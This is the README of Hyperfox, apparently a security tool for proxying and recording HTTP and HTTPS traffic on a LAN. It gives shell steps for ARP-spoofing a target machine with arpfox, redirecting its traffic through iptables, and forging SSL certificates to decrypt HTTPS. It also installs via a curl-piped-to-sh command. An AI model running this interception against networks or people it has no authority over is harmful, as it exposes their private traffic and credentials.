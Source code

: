 # Hyperfox

[Hyperfox][1] is a security tool for proxying and recording HTTP and HTTPs
communications on a LAN.

![Hyperfox diagram](https://hyperfox.org/images/hyperfox-diagram.png)

Hyperfox is capable of forging SSL certificates on the fly if you provide it
with a root CA certificate and its corresponding key. If the target machine
recognizes the root CA as trusted, then HTTPs traffic can be successfully
decrypted, intercepted and recorded.

![Hyperfox SSL](https://hyperfox.org/images/hyperfox-ssl.png)

This is the development repository, check out the [https://hyperfox.org][1]
site for usage information.

## Get `hyperfox`

You can install hyperfox to `/usr/local/bin` with the following command (requires
admin privileges):

```sh
curl -sL 'https://raw.githubusercontent.com/malfunkt/hyperfox/master/install.sh' | sh
```

You can also grab the latest release from our [releases
page](https://github.com/malfunkt/hyperfox/releases) and install it manually into
another location.

## Build it yourself

In order to build `hyperfox` you'll need Go and a C compiler:

```sh
go install github.com/malfunkt/hyperfox
```

## Running hyperfox and arpfox on Linux

The following example assumes that Hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the [arpfox][4] tool to alter the ARP table of the target
machine in order to make it redirect its traffic to Hyperfox instead of to the
legitimate LAN gateway. This is an ancient technique known as [ARP
spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
sudo route
# Kernel IP routing table
# Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
# default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
# ...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
export HYPERFOX_GW=10.0.0.1
export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule on the host to instruct it to redirect all traffic
that goes to port 80 (commonly HTTP) to a local port where Hyperfox is
listening to (1080).

```sh
sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare Hyperfox to receive plain HTTP traffic:

```sh
hyperfox
# ...
# 2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpfox` to alter the target's ARP table so it starts sending its
network traffic to the host box:

```sh
sudo arpfox -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

and watch the live traffic coming in.

## Contributing to Hyperfox

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-today José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: https://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: https://github.com/malfunkt/arpfox
[5]: http://git-scm.com
[6]: https://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/malfunkt/hyperfox/issues
